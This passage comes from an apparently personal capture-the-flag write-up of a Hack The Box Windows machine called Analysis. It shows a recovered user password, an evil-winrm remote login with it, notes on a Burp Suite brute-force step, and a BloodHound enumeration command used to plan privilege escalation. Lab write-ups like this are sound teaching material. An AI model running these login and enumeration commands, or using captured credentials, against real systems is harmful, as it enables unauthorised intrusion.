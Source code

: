 ```
net user jdoe
```
```
Appartient aux groupes locaux                  *Utilisateurs de gesti
```
```
jdoe:7y4Z4^*y9Zzj
```

### Phase 6: Command and Control (C2 Channel)

```bash
evil-winrm -u jdoe -p "7y4Z4^*y9Zzj" -i analysis.htb
```

![evil_result](images/Analysis12.png)

# Now that we got user flag I have to take some rest due to lack of time. Enumerating and creating custom hta and ps1 files got some time, but the most time consuming was burp suite sniper attack, I tried to create a python scripts but in the end it was looping charcter a after it got right password. All this took a lot of time and research and now I'll go and rest and return back tommorow. I'll maybe restart or continue with the same machine but anyway we got our creds.
# I returned back and ip is the same: 10.129.230.179 so i will add hosts and we will continue

### Phase 7: Privilege Escalation (Lateral Movement / Escalation)

In order to find ways to privilege escalation and to understand the whole structure we will use bloodhound:

```bash
bloodhound-python -u jdoe -p "7y4Z4^*y9Zzj" -d analysis.htb -ns 10.129.230.179 -c all --zip
```
```bash
sudo neo4j start
```
